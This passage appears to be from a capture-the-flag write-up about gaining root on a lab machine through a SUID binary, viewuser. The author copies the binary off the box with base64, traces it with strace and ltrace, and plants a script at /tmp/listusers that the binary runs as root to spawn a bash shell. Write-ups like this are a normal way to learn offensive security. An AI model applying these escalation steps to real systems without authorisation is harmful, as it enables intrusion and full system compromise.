 
exim4 = mail server
viewuser = interesting prospect


## viewuser binary

Check SUID/sticky bit on `/usr/bin/viewuser`

    ls -la /usr/bin/viewuser

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537141858_image.png)

*indeed this binary has the ability to run as root.*

Test the functionality of `viewuser`

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537231447_image.png)


copy binary off remote box via base64

    base64 -w0 /usr/bin/viewuser 

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537345690_image.png)


(copy to clipboard)

decode base64 locally:

    base64 -d viewuser.b64 > viewuser

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537442842_image.png)


-could have been opened with Ghidra or Ida Pro opting to use `strace`

strace = list all sys calls

    strace ./viewuser

(difficult to read)

ltrace = another sys call outputer

    ltrace ./viewuser

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537617135_image.png)


*the system(call) uses the variable “who” with no full path included which could lead to an entry to overwrite value. Which afterword changes the SUID and executes* `*/tmp/listusers*`*.*

Modify `/tmp/listusers` (target box)

    #!/bin/bash
    echo "Sending a shell"
    /bin/bash

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537822085_image.png)
